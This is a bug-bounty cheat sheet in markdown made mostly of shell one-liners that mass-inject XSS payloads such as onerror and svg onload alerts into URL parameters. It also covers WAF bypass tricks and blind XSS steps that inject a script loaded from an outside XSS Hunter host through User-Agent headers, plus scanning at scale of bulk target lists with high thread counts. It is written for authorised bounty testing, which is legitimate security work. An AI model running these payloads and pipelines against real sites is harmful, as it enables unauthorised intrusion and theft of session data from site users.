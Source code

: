
# 				XSS-Bug bounty tips

## TIP 1:
	
	1- Find Parameter and test any reflection on response.
	2- Try to find hidden input: [Here you can find blog to find hiddne parameter/input fields](https://portswigger.net/research/xss-in-hidden-input-fields)
	3- Find sink source for DOM XSS
	4- FInd any local stoage in jvascript.
	5- Test in cookie 
	6- Test in userAgent \ Header Injection
	
	If <script> - payload blocked by WAF; then try it -- ( sr<script>b1mal )


Find XSS with automation:
```bash
 echo http://example.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
install freq: - go get -u https://github.com/takshal/freq

  echo http://testphp.vulnweb.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)"
 AirisXSS - Insatallation : https://github.com/ferreiraklet/airixss

 XSpear -u "http://domain.com/dir.php?param=123" -v 1

	success?next_url=javascript%3Aalert%2F**%2F(document.domain)
```

 ## TIP- 2:
       
      First you need to gather subdomain of target:
      $ subfinder -d example.com -o subdomain.txt
  
      The Next process was to find the number of sub-domains which are active,
      $ cat subdomains.txt | httprobe | tee -a host.txt

      Now gather some endpoint to the host.txt
      $ cat host.txt | waybackurl | tee -a endpoint.txt
   
      started to fuzz all the parameters to find xss vulnerability with the help of the tool qsreplace.
      $ cat endpoint.txt | qsreplace ‘“><img src=x onerror=alert(1)> | tee -a xss_fuzz.txt

      After executing the command now, I had to check the number of parameters have been reflecting our
        payload into a plain text weather or not.

      $ cat xss_fuzz.txt | freq | tee -a possible_xss.txt
      
            
      
## TIP-3:

      Oneliner XSS automation by 
     @BountyOverflow
 ```bash
 echo http://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '">		<img src=x onerror=alert(1);>' | freq
```

## Finding XSS with onliner commadnline:
```bash
 echo www.example.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload-confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'

echo http://target.com | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '">	<img 		src=x onerror=alert(1);>' | freq 

go run main.go test.php.vulnweb.com | tee testphp1.txt | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat 
combined.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n"
```

 Find XSS Tips:
 -------------
```bash
$ wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @

$ gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt

$ waybackurls http://testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b http://blindxss.xss.ht pipe > output.txt
	 
$ waybackurls http://testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
	
```

```bash
# Oneliner XSS at scale 
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b http://your.xss.ht -o xss.txt
```



## Blind XSS at scale 🔥🔥🔥
```bash
cat roots.txt | waybackurls | httpx -H "User-Agent: \"><script src=$YOUR_XSS_HUNTER></script>" 

#And monitor your xss hunter dashboard  
```
**Automate Blind-XSS**
**Match-& Replace burp suite option will use here Either you can use as automation with command line tool- **

1 - [Clne this tool](https://github.com/Leoid/MatchandReplace)
2- python generate.py -f parameters.txt -c "Blind-XSS" --rule "request_param_name" --replace https://abdulrahman2x.xxt  -x -o blind-xss.json
3- After getting your blind-xss output then add into your burp - IN Match & Replace section
4- Now after set parameter in burp then we need send urls to out burp to check blind xss. 
5- gospider -S hosts.txt -a -w --sitemap -r -d 8 -p http://127.0.0.1:8080 

**Same as SSRF**


 

 








